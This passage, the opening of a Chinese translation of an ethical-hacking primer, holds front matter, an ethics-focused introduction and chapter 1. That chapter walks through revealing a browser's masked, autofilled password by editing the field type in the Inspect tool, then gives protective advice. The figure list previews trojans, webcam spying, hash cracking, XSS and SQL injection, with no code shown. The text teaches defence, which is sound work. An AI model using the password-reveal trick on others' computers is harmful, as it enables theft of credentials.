# Go Hack Yourself：网络攻击与防御入门指南


## 表目录
1. 表 10-1：CANBus 控制面板的键盘控制

## 图目录
1. 图 1-1：网络浏览器通常用点或星号隐藏密码。
2. 图 1-2：检查密码代码
3. 图 1-3：在检查工具中查找 `type="password"`
4. 图 1-4：在 `type="password"` 中替换单词 *密码*
5. 图 1-5：密码现在可见。
6. 图 2-1：Sticky Keys 漏洞会打开命令提示符窗口而不是 Sticky Keys 助手。
7. 图 2-2：使用 Windows 安装光盘访问命令提示符。
8. 图 2-3：打开命令提示符窗口
9. 图 2-4：我们已成功将名为 `ironman` 的用户添加为此计算机的管理员。
10. 图 2-5：您现在可以使用 `ironman` 用户登录此 Windows PC。
11. 图 2-6：作为管理员级用户，您可以看到 *所有* 用户的文件，而不仅仅是您自己的。
12. 图 2-7：管理员可以授予自己访问同一台计算机上任何人文件的权限。
13. 图 2-8：Mac 上单用户模式启动屏幕的一部分
14. 图 2-9：在执行 Mac root 漏洞利用后，您可以使用漏洞利用中设置的密码以 root 用户身份登录。
15. 图 3-1：Kali Linux 虚拟机出现在 VirtualBox 管理器左侧的列表中。
16. 图 3-2：您的 Kali Linux 虚拟机已准备就绪！
17. 图 3-3：在导入 Windows 虚拟机后，您将在虚拟道德黑客实验室中拥有两个虚拟机！
18. 图 3-4：检查 Kali 虚拟机的 IP 地址
19. 图 3-5：检查您的 Windows 虚拟机网络设置
20. 图 4-1：在您喜欢的搜索引擎上搜索自己的姓名。
21. 图 4-2：输入 `ext:xls password` 可找到包含用户名和密码的 Excel 电子表格。
22. 图 4-3：在点击前通过 VirusTotal 扫描可疑网页链接。
23. 图 4-4：我们选择的密码电子表格似乎可以安全打开。
24. 图 4-5：使用 `site:` 搜索运算符在特定组织的网站上搜索结果。
25. 图 4-6：Google Hacking Database 密码搜索查询
26. 图 4-7：图像元数据揭示了照片拍摄的时间、地点，甚至拍摄所用的手机！
27. 图 5-1：找到 `13 - Social Engineering Tools` 文件夹和 `SET` 应用程序。
28. 图 5-2：要使用 `SET`，您必须同意服务条款。
29. 图 5-3：克隆的 Twitter 主页看起来与真实的一模一样。
30. 图 5-4：在您的 `SET` 克隆站点中输入虚假信息；切勿在钓鱼站点上输入您的真实用户名和密码。
31. 图 5-5：我通过更改文本和超链接将一封来自 Twitter 的真实电子邮件转换为钓鱼电子邮件。
32. 图 6-1：Metasploit Framework 控制台的启动信息，底部左侧为 Metasploit `msf6 >` 命令提示符
33. 图 6-2：`msfvenom` 工具创建一个名为 `Fortnite_cheat_mode.exe` 的特洛伊木马并将其放置在桌面上（左下角）。
34. 图 6-3：多亏了 Kali 的 Apache Web 服务器，我们的特洛伊木马恶意软件现在已在（虚拟）网络上可用！
35. 图 6-4：Windows Defender SmartScreen 试图最后一次保护您的 Windows 虚拟机。
36. 图 6-5：一组令人惊叹的 Meterpreter 命令，可用于控制受感染的 Windows 虚拟机
37. 图 6-6：我们可以从 Kali 向受感染的 Windows 10 虚拟机上传文件。
38. 图 6-7：从 Windows 虚拟机捕获屏幕截图
39. 图 6-8：`screenshare` 命令让 Kali 上的攻击者通过互联网监视您的 Windows 桌面。
40. 图 6-9：网络摄像头流显示了我和办公室里的书架。
41. 图 7-1：将用户名和 NTLM 哈希值复制并粘贴到新的文本文件中
42. 图 7-2：Hashes.com 将您的 NTLM 哈希作为输入，并在其数据库中找到的任何破解密码作为输出。
43. 图 7-3：在 Johnny 中打开 `Windows_hashes.txt` 密码文件
44. 图 7-4：通过 Johnny 加载 `rockyou.txt` 词表
45. 图 7-5：将 `NT` 选择为输入密码哈希格式
46. 图 7-6：使用我们捕获的哈希值，Johnny 几乎在瞬间破解了五六个密码。
47. 图 7-7：Kara 撕破的便签，上面看起来像是她密码的一部分
48. 图 7-8：使用掩码攻击——在便签上找到的部分密码后添加通配符——来破解 Kara 的密码
49. 图 7-9：密码掩码 `SuperGir?a?a?a` 在不到一秒的时间内破解了 Kara 的密码（`SuperGirl7!`）！
50. 图 8-1：将 `Metasploitable2-gohack.ova` 文件导入 VirtualBox
51. 图 8-2：确保 Metasploitable 虚拟机连接到 PublicNAT 网络
52. 图 8-3：从您的 Windows 10 虚拟机输入您的 Metasploitable 虚拟机的 IP 地址以查看此主页。
53. 图 8-4：带有我们凭据的 DVWA 登录屏幕
54. 图 8-5：将 DVWA 脚本安全级别设置为低
55. 图 8-6：通过在文本框中输入 HTML 和 JavaScript 来攻击反射型 XSS 页面


## 图目录
56. 图 8-7：易受攻击的网页弹出一条消息说我们已被入侵！
57. 图 8-8：在 DVWA 的 XSS 存储页面中存储我们的恶意脚本
58. 图 8-9：我们的 JavaScript 警告将告诉每个访客，“你已被入侵！”
59. 图 8-10：输入更具恶意的脚本，该脚本将把用户重定向到完全不同的网页
60. 图 8-11：清除你的存储型 XSS 攻击
61. 图 8-12：通过向易受攻击的数据库搜索表单注入 SQL 代码来攻击数据库
62. 图 8-13：我们已泄露所有五个用户的名字和姓氏！
63. 图 8-14：我们已使用 SQL 注入攻击从 DVWA 窃取了所有用户名和密码哈希！
64. 图 9-1：我们已在 VirtualBox 中添加了 Android 8.1 虚拟机！
65. 图 9-2：虚拟 Android 设备上的主屏幕
66. 图 9-3：从 Android 虚拟机的 Chrome 浏览器导航到 Kali 虚拟机的 `share` 文件夹，找到准备下载和安装的 `CoolGame.apk` 木马应用。
67. 图 9-5：访问下载管理器
68. 图 9-6：Android 在卸载应用前会询问用户的许可。
69. 图 9-7：使用联系人应用添加包含虚假信息的新的联系人
70. 图 9-8：为 `Meterpreter` 授予超级用户访问权限
71. 图 9-9：当我们在 `Meterpreter` 中关闭铃声音量时，用户无法从设置屏幕将其重新打开！
72. 图 9-10：从用户屏幕隐藏我们的 `MainActivity` 应用图标
73. 图 10-1：`ICSIM` 程序显示一个模拟的汽车仪表盘，带有速度表、转向信号等！
74. 图 10-2：保持控制器应用可见且易于访问
75. 图 10-3：`cansniffer` 数据包嗅探器显示我们在 `vcan0` 网络上的消息。
76. 图 10-4：在 `Mousepad` 文本编辑器中搜索特定的 CAN ID 值
77. 图 10-5：重放的数据包正在控制仪表盘。
78. 图 10-6：我们可以通过使用 `cansend` 直接向 CAN 总线发送信号来控制仪表盘。
79. 图 A-1：Windows 10 企业版评估屏幕
80. 图 A-2：选择平台和语言以下载免费、合法的 Windows 评估副本。
81. 图 A-3：从 Microsoft 下载 Windows 媒体创建工具。
82. 图 A-4：选择 **创建安装媒体**。
83. 图 A-5：选择 **USB 闪存驱动器**，插入一个空的 USB 驱动器，然后单击 **下一步**。
84. 图 B-1：关闭所有 Hyper-V 和 Windows Hypervisor Platform 选项
85. 图 B-2：从 Windows 10 进入 BIOS
86. 图 B-3：访问高级选项菜单
87. 图 B-4：访问 UEFI 固件设置或启动设置

## 表目录
1. 列表 5-1：主要的 SET 菜单
2. 列表 5-2：SET Attacks 菜单
3. 列表 5-3：SET Website Attack Vectors 菜单
4. 列表 5-4：SET Credential Harvester Attack 菜单
5. 列表 7-1：五个密码的哈希版本
6. 列表 7-2：来自列表 7-1 的破解密码

## 前言
1. 封面
2. 前言
3. 献词
4. 引言
5. 开始阅读
6. 索引

## 版权页
1. iii
2. iv
3. v
4. vii
5. xv
6. xvii
7. xviii
8. xix
9. xx
10. 1
11. 2
12. 3
13. 4
14. 5
15. 6
16. 7
17. 8
18. 9
19. 10
20. 11
21. 12
22. 13
23. 14
24. 15
25. 16
26. 17
27. 18
28. 19
29. 20
30. 21
31. 22
32. 23
33. 24
34. 25
35. 26
36. 27
37. 28
38. 29
39. 30
40. 31
41. 32
42. 33
43. 34
44. 35
45. 36
46. 37
47. 38
48. 39
49. 40
50. 41
51. 42
52. 43
53. 44
54. 45
55. 46
56. 47
57. 48
58. 49
59. 50
60. 51
61. 52
62. 53
63. 54
64. 55
65. 56
66. 57
67. 58
68. 59
69. 60
70. 61
71. 62
72. 63
73. 64
74. 65
75. 66
76. 67
77. 68
78. 69
79. 70
80. 71
81. 73
82. 74
83. 75
84. 76
85. 77
86. 78
87. 79
88. 80
89. 81
90. 82
91. 83
92. 84
93. 85
94. 86
95. 87
96. 88
97. 89
98. 91
99. 92
100. 93
101. 94
102. 95
103. 96
104. 97
105. 98
106. 99
107. 100
108. 101
109. 102
110. 103
111. 104
112. 105
113. 106
114. 107
115. 108
116. 109
117. 110
118. 111
119. 112
120. 113
121. 114
122. 115
123. 116
124. 117


125. 118
126. 119
127. 120
128. 121
129. 122
130. 123
131. 125
132. 126
133. 127
134. 128
135. 129
136. 130
137. 131
138. 132
139. 133
140. 134
141. 135
142. 136
143. 137
144. 138
145. 139
146. 140
147. 141
148. 142
149. 143
150. 144
151. 145
152. 147
153. 148
154. 149
155. 150
156. 151
157. 153
158. 154
159. 155
160. 156
161. 157
162. 158
163. 159
164. 160
165. 164


致 Bev、Alex 和 Max：我写的一切都是为了你们。

## 关于作者

Dr. Bryson Payne 是一位获奖的网络教练、作者和 TEDx 演讲者，也是北佐治亚大学网络作战教育中心创始主任，该中心是 NSA-DHS 网络防御学术卓越中心。他是 UNG 的计算机科学终身教授，自 1998 年起在此教授有志于编程和网络专业的学生，包括指导 UNG 全国排名第一的 NSA Codebreaker Challenge 网络作战团队。2017 年，他荣获佐治亚州立大学系统校长服务卓越年度领袖奖。他还获得美国陆军少将指挥官公共服务奖章，授予自美国陆军学员指挥部，并获得军事网络专业协会颁发的托尔勋章。Dr. Payne 还被 UNG 校友会评为 2021 年度杰出教授。

Dr. Payne 是注册信息系统安全专业人员 CISSP 和认证道德黑客 CEH，并持有精英 SANS|GIAC GPEN、GRID 和 GREM 认证。他为劳动力发展、技术教育和网络安全撰写了超过 4500 万美元的成功资助，并通过其在线编程和道德黑客课程培训了超过 60,000 名学生，包括三门顶级 Udemy 课程。他还是 UNG 计算机科学系首任系主任，并乐于与全球 K–12 学校合作推广计算机科学和网络安全教育。

Dr. Payne 拥有佐治亚州立大学计算机科学博士学位。曾登上 *华尔街日报*、*校园技术* 和 *CIO* 杂志，他也是 No Starch Press 出版的 *教你的孩子编程* 和 *轻松学习 Java* 的作者。他编程、黑客和逆向工程软件已有 36 多年；1985 年，他以 10 美元的价格将自己的第一个付费程序卖给 *RUN Magazine*（Commodore 64）用于其“Magic”专栏。除热爱技术外，Dr. Payne 还喜欢学习语言，会说西班牙语、法语、俄语和普通话。

## 关于技术审校

Bryan Fagan 是一位居住在佐治亚州 Dahlonega 的编程爱好者，他大部分时间都在教高中学生网络安全。他发起过多个课后项目，专注于工程、技术和数字游戏设计。

## 致谢

特别感谢 No Starch Press 的团队帮助使本书成为现实：Bill Pollock、Nathan Heidelberger、Barbara Yien、Dapinder Dosanjh、Liz Chadwick、Jennifer Kelley、Matthew Kim、Annie Choi、Janelle Ludowise、Laurel Chun、Athabasca Witschi、Rachel Monaghan、JoAnne Burek、Lisa Devoto Farrell、Derek Yee、Paula Fleming 和 Paula Williamson。

感谢我的长期同事、教育工作者和朋友 Bryan Fagan 在过去两年中 Kali Linux 和大多数黑客工具的各种变化中进行了细致而彻底的技术审校。

感谢我的母亲 Esta 在 20 世纪 80 年代初为我买了那台 Commodore 64 并鼓励我追求梦想——我从未知道编程和黑客会带我走多远。感谢我的岳父 Norman 总是有时间跟我聊电脑。最感谢我的美丽妻子 Bev 和我的儿子 Alex 和 Max，在我撰写这第三本书时给予他们的爱和支持——特别感谢你们让我休息去跳蹦床、做科学实验、玩游戏、看电影和游泳。这本书，我的生活，因为你们而变得无限更好、更有趣。

## 引言


黑客攻击是一项实用且有用的技能。在合乎道德地使用时，黑客攻击可以帮助你找回遗忘的密码或访问你以为永远丢失的文件。学习黑客攻击也能帮助你保护个人信息免受网络攻击者的侵害。事实上，在坏人动手之前先对自己进行“黑客攻击”，是保护自己免受网络犯罪侵害的最佳方法之一。

本书*不*鼓励犯罪活动。它旨在教你如何像黑客一样思考，并将这些技能应用于问题解决、网络安全以及在网上保持安全。

## Hacking Basics

*黑客行为*是用已有工具做一些新颖或出乎意料的事情。想想“生活技巧”，比如用牙线干净地切下一块蛋糕，或重复使用空的口气清新剂容器来存放回形针。自从人类踏上这颗星球以来，我们一直在创造新工具并为周围发现的东西找到新用途。

计算机黑客行为类似。我们一直在用计算机技术做新颖且出乎意料的事情。我们可以通过编写一个小型应用程序将一个程序的格式文件翻译成另一个程序的格式，从而将两个本不打算协同工作的程序“拼凑”在一起。我们可以对网页浏览器或电子表格程序进行改装使其玩游戏。或者，如果你不小心，他人可以通过发送给你病毒的电子邮件来入侵你的电脑，从而获取你的文件、密码，甚至你的网络摄像头。

在本书中，我们将像对待武术一样对待计算机黑客行为——你将学会出拳踢腿，以及如何*格挡*拳脚。你将通过在虚拟实验室中安全地对自己执行同样的黑客攻击来学习如何防御自己和他人免受网络攻击。通过使用黑客使用的相同工具和技术，你将了解需要防御的网络威胁类型。

## Keeping It Ethical

黑客有多种形式，但由于*hacker*一词被滥用得太多，在本书中我们将自称为*道德黑客*——以明确我们将为合乎道德、合法的目的使用所学的黑客技能。当指代行为非法或不道德的人时，我会使用*攻击者*或*恶意黑客*这些术语。

*道德黑客行为*是在得到系统所有者完全许可的情况下，使用攻击者的工具和技术来测试计算机系统的弱点。道德黑客的目标是找出弱点以提高系统的安全性。我们称此过程为*加固*系统——移除和解决弱点，使系统不易受到攻击。

道德黑客也被称为*白帽*黑客，而*黑帽*黑客则是出于经济利益、破坏或其他不法目的不道德地使用网络攻击的人。为了说明区别，假设你在人行道上找到一把钥匙。仅仅找到钥匙并不不道德。事实上，如果你走到最近的房子前，敲门并询问主人这是否是他们的钥匙，那将是完全合乎道德的。白帽黑客会询问房主是否不小心掉了钥匙。另一方面，如果你捡起钥匙并开始在街上逐一尝试开门，你就表现得像黑帽黑客，因为你没有房主允许你使用钥匙或进入其住宅。

在阅读本书的过程中，你会发现很多公开的数字“钥匙”。例如，一些创造性的谷歌搜索可能会找到当地一家杂货店安防摄像头的默认用户名和密码。仅仅找到这些信息并不不道德。告诉商店经理安防摄像头可在网上访问也不算不道德。但如果你尝试使用用户名和密码查看摄像头的视频，*那就*不道德了，因为你没有得到所有者的授权。

未经他人许可访问他人的电脑或设备是不道德的，通常也是非法的，就像未经许可进入他人的房子是非法侵入一样，即使他们不小心把门开着或把钥匙掉在人行道上。人们会根据你的行为判断你的行为是否合乎道德。像白帽黑客一样进行黑客攻击，并将你在本书中学到的技能用于善而非恶。

## How This Book Is Organized

本书同时展示了如何攻击以及如何防御攻击。每章都会提升你作为道德黑客的技能水平。

前两章包含你可以立即动手操作的黑客技巧，无需任何特殊工具——只需一台普通电脑和网页浏览器。你将在第 1 章开始破解你的第一个密码，即保存的网页浏览器密码。攻击者觊觎你的密码，因为如果他们能窃取你的登录信息，就能从你的账户中窃取信息或金钱。

在第 2 章，你将了解如何入侵你可能放在衣柜、车库或阁楼里的旧 Windows PC 或 MacBook，并学习如何恢复你以为已丢失的文件。

在第 3 章，你将在自己的电脑上搭建一个安全、虚拟的黑客实验室环境。这将让你能够安全地练习在后续章节中学习的高级黑客技巧，而不会让你的电脑——或你自己——陷入危险。

在第 4 章，你将学习黑客如何使用搜索引擎和社交媒体帖子等简单工具收集他们正在保护或攻击的人或公司的信息。你还将学习如何保护自己免受利用社交媒体监视潜在受害者的网络捕食者的侵害。

在第 5 章，你将亲身体验攻击者如何通过钓鱼邮件诱骗你交出用户名和密码，因为你将自己制作钓鱼邮件和伪造网站！

在第 6 章，你将看到攻击者如何使用感染病毒的文件通过互联网远程接管电脑。你将在安全、虚拟的黑客实验室中创建一个真正的病毒并入侵一台模拟的 Windows 电脑。

在第 7 章，你将看到黑帽黑客如何从 Windows 电脑上的每个用户那里窃取并“破解”数十个密码，并学习如何使自己的密码更安全。

在第 8 章，你将发现如何攻击和防御 Web 应用程序。恶意黑客知道，被入侵的 Web 应用可以泄露成千上万甚至数百万用户的个人信息。

在第 9 章，你将看到攻击者如何通过创建恶意移动应用来控制你的智能手机，从而窃取你的私人信息，包括短信和照片。

在第 10 章，你将入侵一辆（模拟）汽车！这个最后的练习让你了解攻击者如何越来越多地将目光从 PC 和手机转向智能家电和其他联网设备世界。

最后，在第 11 章，我们将总结 10 件你现在就可以做的保护自己在线安全的事情，概括了整本书中最重要的技巧和提示。几个简单的自卫步骤就可以防止大多数网络攻击得逞。

## Basics of Cyber Self-Defense

当你探索前方章节中的黑客技巧时，你将更多地了解白帽黑客用来保护其防御系统的核心行为。良好的网络自卫始于了解来自网络捕食者和在线攻击者的危险。下一步是学习如何避免成为容易的目标。通过更多练习，你将能够保护自己和他人免受甚至高度复杂的现实世界攻击。

只需在你使用电脑和其他设备的方式上做出几个关键改变，你就可以从网络受害者转变为网络英雄！让我们开始吧！

# 1 通过混淆实现的安全


在本章中，你将开始学习如何像黑客一样思考以发现安全措施中的弱点。你将发现一个揭示网页浏览器中隐藏密码的简单黑客技巧。这个技巧之所以有效，是因为网页浏览器使用*通过混淆实现安全*来保护密码。


## 通过混淆实现的安全

通过混淆实现的安全是一种试图通过隐藏来保护某事的技术。在物理世界中，将房屋钥匙藏在前廊迎宾垫下就是通过混淆实现的安全的一个例子。你的房子可能*感觉*很安全，但一旦有人想到要掀开垫子查看，这种安全就会失效。

为了安全而隐藏某物不一定是坏的做法，除非这是你采取的*唯一*安全措施。不幸的是，通过混淆实现的安全经常会失败，尤其是在应用于我们的计算机时。例如，许多用户会在计算机上的文本文档或 Excel 电子表格中“隐藏”他们的密码，或者更糟糕的是，在键盘下或办公桌抽屉里的便签上。这些密码比本章中你将要破解的那个密码更容易找到。同样，一些软件开发人员会在应用程序中硬编码混淆的密码和其他机密值，但熟练的黑客通常可以找到并解码这些值。

正如本章所述，如果混淆是你的唯一安全措施，那么在你和一个有动机的入侵者之间所站着的，只是他们花费的一点时间和精力去寻找入口。

## 浏览器如何“保护”密码

当你输入密码登录在线服务（如电子邮件或社交媒体账户）时，你的网络浏览器通常会用点或星号隐藏密码。这样，肩后窥视的人就无法读到它。如果你让浏览器保存密码并稍后返回该网站，当浏览器为你自动填充存储的密码时，那些点或星号会自动出现在密码字段中。

这些点或星号是通过混淆实现的安全的一个很好的例子。你的浏览器并未加密你的密码，也没有以其他特殊方式保护它。它只是模糊密码字段中的字符，以保护密码免受随意窥探者的窥视。这种技术实际上根本不安全。事实上，黑客只需在你的键盘上花几秒钟就能查看密码。

## 揭示被隐藏的密码

要揭示被浏览器隐藏的密码，我们将使用浏览器的 `Inspect` 工具。此工具让你可以查看并临时编辑网页的*源代码*，即告诉浏览器如何显示网页的代码。我们将更改使密码显示为点或星号的源代码片段。完成后，密码将以普通文本显示。

这不是那种能够摧毁一个国家或一次性泄露数百万人私人数据的黑客行为。相反，此黑客行为说明了黑客行为的指导原则之一：以创造性的方式使用现有工具——在本例中是浏览器的 `Inspect` 工具——来实现特定目标——揭示隐藏的密码。同时，此黑客行为也演示了在攻击者获得对你计算机的物理访问权限的情况下，将密码存储在浏览器中的风险。

让我们尝试一下这个黑客行为，以 Twitter 登录页面为例。我们将输入一个假的用户名和密码，启动浏览器的 `Inspect` 工具，并更新源代码以暴露密码。

1. 打开 Google Chrome 并前往 [`twitter.com/login/`](https://twitter.com/login/)。此黑客行为在其他浏览器中也有效，但我们为了简单起见使用 Chrome。

2. 在用户名字段中输入你的姓名，并在密码字段中输入 `Notmyrealpassword!`。*不要*输入你的真实密码。密码将被点隐藏，如 图 1-1 所示。



图 1-1：网络浏览器通常用点或星号来隐藏密码。

3. `Right-click`（或在 Mac 上 `CONTROL-click`）密码字段并选择 `Inspect`，如 图 1-2 所示。`Inspect` 工具看起来像是一组显示代码的窗口，应该会在你的浏览器中打开。由于你右键单击密码字段来打开 `Inspect` 工具，浏览器应该已经高亮显示了登录页面中创建密码字段的代码部分。



图 1-2：检查密码代码

4. 在高亮代码中找到 `type="password"` 并双击单词 `password` 以选择它，如 图 1-3 所示。这段代码是浏览器识别密码字段的方式。浏览器知道类型为 `password` 的字段中的任何文本都应被隐藏。



图 1-3：在 `Inspect` 工具中查找 `type="password"`

5. 在 `password` 被高亮时，按下 `spacebar` 将 `password` 替换为空格（`type=" "`），如 图 1-4 所示。我们现在已更改（或黑客攻击）了密码字段的代码，使浏览器不再知道它本应是密码类型字段。这应该会显示密码字段中的任何文本！



图 1-4：替换 `type="password"` 中的单词 `password`

6. 按下 `ENTER` 在浏览器中显示更新后的代码。你现在应该能在浏览器窗口中以普通文本形式看到你输入的密码，如 图 1-5 所示。

此黑客行为之所以有效，是因为允许网页开发人员创建密码字段的 `<input>` 标签是不安全的——而且已经不安全了四分之一世纪。在 1990 年代，早期网页开发人员将 `<input>` 标签添加到 *HyperText Markup Language (HTML)* 时，HTML 是使网页在网络浏览器中显示的语言，他们唯一的 安全功能是通过使用额外的代码 `type="password"` 将密码字符替换为点或星号。然而，由于普通文本框也使用 `<input>` 标签，我们可以使用 `Inspect` 工具仅通过将 `type="password"` 改为 `type=" "` 就将密码输入更改为普通文本输入。



图 1-5：密码现在可见。

## 使用和误用此黑客行为

我们刚刚执行的黑客行为具有实际的、合乎道德的应用。因为浏览器中存储的密码在网站登录屏幕上会被自动填充但被隐藏，所以你可以使用这个简单的黑客行为来揭开你忘记的密码。

这尤其有用，如果你将密码存储在一台机器上，例如你的家庭电脑，但定期需要在其他机器上登录，例如工作电脑、家人的电脑或移动设备。如果你无法在另一台电脑上登录时记起密码，你可以在家庭电脑上揭开存储的密码以查找它，而不是重置密码。

此黑客行为也可以以合乎道德的其他方式使用。例如，如果一名员工意外离职，经公司所有者许可的道德黑客可以使用此黑客行为恢复该员工可能负责的重要在线账户的密码。

如果你练习足够多次，你可以在 5 秒内轻松完成此黑客行为。然而，这也意味着，如果你曾经在公共电脑上存储密码，任何拥有该电脑物理访问权限的人只需 5 秒钟即可窃取它。一个黑帽黑客可以走进世界任何地方的酒店大堂或公共图书馆，坐到一台电脑前，检查浏览器的历史记录以查找最近访问的网站，并查看是否有潜在受害者在登录其私人账户时保存了密码。


你甚至不需要在浏览器中保存密码，别人就能将其泄露。如果你身处公共场所，有人在你输入网站密码时分散你的注意力，他们就能利用这个漏洞窃取你的密码。他们甚至可以修改 `type="password"` 代码并关闭检查工具以掩盖痕迹！如果你在多个账户上使用了相同的密码，攻击者现在就能访问所有这些其他账户。

## 保护你的密码
我们讨论过的这个漏洞，如果被恶意使用，会对你的密码安全构成明显风险。然而，有一些简单的方法可以保护自己。首先，这个漏洞只有在黑客能够物理接触到存储的密码时才可能实现，因此防止攻击的关键是根本不在浏览器中存储密码，或者限制以下内容：
1.  存储密码的位置 仅在你拥有并随身携带的计算机或设备上在浏览器中存储密码，切勿在公共电脑上存储。
2.  存储哪些密码 切勿存储你的电子邮件密码，因为攻击者通常可以用你的电子邮件账户发现或重置你所有的其他密码。
3.  谁可以访问你的电脑 将电脑随身携带或存放在安全的地方，如果你必须离开，即使只有一分钟，也不要将其保持开启状态。

如果你必须从公共电脑登录私人账户，请通过使用 Chrome 中的无痕模式 (`CTRL-SHIFT-N`) 或在 Firefox 中打开新的私人窗口 (`CTRL-SHIFT-P`) 或在 Safari 中打开 (`SHIFT-⌘-N`) 来限制浏览器中存储的信息。*请记住在会话结束时同时注销并完全关闭浏览器。* 即使你注销或使用无痕模式，共享电脑也有风险，因为恶意软件可以记录你的击键或其他信息。（事实上，我们将在第 6 章中创建的病毒中捕获击键。）只有在绝对必要时才从公共电脑登录账户。此外，回到自己的电脑后，请考虑更改你的密码。

如果你在公共场所使用个人电脑，请务必在离开时注销或锁定屏幕——更好的做法是随身携带电脑。设置锁屏或屏幕保护程序在几分钟后自动开启，以限制电脑暴露的时间，以防你忘记自行锁定。使用强密码或密码短语（尝试四个或更多单词）登录电脑，而不是像 *password123* 这样明显的密码，这样即使电脑无人看管，其他人也无法轻易解锁。

除此之外，你还应利用其他密码安全工具，例如双因素认证和像 KeePass、Dashlane、LastPass 或类似的密码管理器。我们将在第 11 章讨论这些工具。

保护自己免受计算机攻击需要一些明智的预防措施，但了解如何在便利性和安全性之间取得平衡很重要。将所有东西的密码都存储在浏览器中似乎很方便，因为你永远不必输入它们，但这也意味着任何可以访问该电脑的人都可以窃取你的密码和账户。我们必须在物理世界和在线环境中，在便利性和安全性之间找到正确的平衡。

## 总结
本章中，你看到通过模糊性实现的安全很容易被击败，因此根本不安全。你学习了如何仅用几个步骤在几秒钟内揭示输入到浏览器中的密码。你还了解了绝不在公共或共享电脑上存储密码的重要性。此外，你现在知道要对电脑进行物理保护，防止不认识或不信任的人接触——如果有人可以触摸你的键盘，他们就可以访问你的敏感信息。

本章讨论的漏洞是一个物理访问攻击的例子——攻击者需要对你的电脑进行物理访问才能执行它。在下一章中，你将了解到其他物理访问攻击，这些攻击允许黑客在无需知道登录信息的情况下从你的硬盘获取文件。

# 2 物理访问攻击


你是否曾经在咖啡店把笔记本电脑无人看管，认为你的私人文件在登录屏幕后面是安全受保护的？事实证明，任何拥有对电脑物理访问权限的人只需几个按键就能访问你的文件，而无需知道你的登录详情。在本章中，我将向你展示两种 *物理访问攻击*：用于 Windows PC 的 *Sticky Keys 攻击* 和用于 Mac 的 *Mac root 攻击*。这两种攻击都可让攻击者获得目标电脑的管理员级访问权限，从而窃取文件或更改重要设置。

